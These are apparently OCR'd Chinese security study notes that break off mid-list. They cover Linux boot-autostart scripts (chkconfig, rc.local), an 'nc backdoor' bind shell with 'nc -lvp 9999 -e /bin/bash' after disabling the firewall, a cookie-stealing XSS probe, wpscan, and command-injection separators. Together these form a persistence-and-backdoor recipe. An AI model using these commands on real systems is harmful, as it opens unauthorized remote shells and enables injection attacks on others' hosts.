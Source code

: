 方法一：

1，在某个目录下创建脚本：例如：/root/hello/wei.sh

(注意：脚本中必须加入：

#!/bin/bash

#chkconfig:2345 10 90

#description:resind

2，cp /root/hello/wei.sh /etc/init.d/wei.sh

(注意：也可以直接在 /etc/init.d下，直接创建wei.sh脚本)

3\. 给脚本执行权限：chmod +x /etc/init.d/wei.sh

4\. 加入开机启动,进/etc/init.d/目录下：chkconfig \--add wei.sh

chkconfig wei.sh on

查看wei.sh开机自启动情况： chkconfig \--list wei.sh

（注意非加入自启动而是手动启动这样：/etc/init.d/wei.sh start）

方法二：

1.写一脚本，Wei.sh 放在、etc/init.d、下面。即/etc/init.d/wei.sh

2，加权限 chmod +x /etc/init.d/wei.sh

3.写入到/etc/rc.local开机自启动文件里：

echo "bash /etc/init.d/wei.sh"\>\> /etc/rc.d/rc.local

4 chmod +x /etc/rc.d/rc.local

**nc后门**

**关闭防火墙**

靶机：nc -lvp 9999 -e /bin/bash

攻击机：nc x.x.x.x 9999

五分钟建站的简易Wordpress论坛，可以尝试查看robots.txt文件，判断cms类型kali有一款针对wordpress论坛的专业网络安全漏洞扫描软件wpscan

**使用alert(document.cookie)弹出用户的cookie**

命令注入

特殊符号

Windows：

\| :直接执行后面的语句

\|\|：前面出错执行后面的

&：前为假执行后面的

&&：前为假直接出错，前为真执行

LINUX：
